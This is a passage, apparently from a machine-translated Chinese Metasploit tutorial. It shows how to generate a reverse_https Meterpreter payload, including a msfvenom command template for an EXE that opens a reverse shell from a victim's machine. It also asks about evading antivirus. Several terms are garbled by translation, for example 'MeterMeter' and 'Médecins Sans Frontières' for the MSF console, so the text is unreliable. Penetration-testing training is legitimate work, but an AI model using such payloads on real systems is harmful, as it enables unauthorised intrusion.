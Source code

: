 以下屏幕截图显示了前面命令的输出：

![](img/98134196-af74-4fcc-b15c-c66e3ed8bf92.png)

前面的命令将生成`reverse_https`流量计有效载荷。列出它以确认生成的有效负载，并在端口`9090`上为传入连接启动处理程序。生成有效负载的另一种方法是使用 MSFvenom。

在前面的命令中，`-q`开关用于在安静模式下启动 MSF，`-x`在启动后在控制台执行该命令。

# 使用 msfvenom 生成 MSF 有效负载

MSFvenom 是一个内置工具，无需启动 MSF 即可生成和混淆有效负载。执行`msfvenom -p <MSF supported payload> lhost=<IP> lport=<PORT> -f <Output File Format> -o <payload filename>`命令以 EXE 格式生成`reverse_https`MeterMeter 有效负载并保存文件：

![](img/02196b7c-1a4f-4874-8072-fd907beb0113.png)

In both cases, we used `ls -alh https_2.exe`.

现在可以在受害者的系统上上传/执行此有效负载，以便通过安全的 HTTPS 隧道将反向 MeterMeter 连接返回给我们。

# 总结

在本章中，我们学习了 Metasploit 框架的基本术语，以及如何在基于*nix 和基于 Windows 的系统上安装和设置 Metasploit 框架。然后，我们研究了无国界医生的使用情况。我们加载模块/辅助设备，设置目标值，并在主机上运行它们。最后，我们学习了如何使用 MSFvenom 为开发目的生成有效负载。

在下一章中，我们将学习如何使用 Metasploit，但使用 web 界面**用户交互**（**用户界面**选项。这确实可以帮助那些对**命令行界面**（**CLI**不太了解的人。

# 问题

1.  Metasploit 框架是否免费使用？

2.  我可以加密我的有效载荷，使他们可以逃避反病毒软件吗？
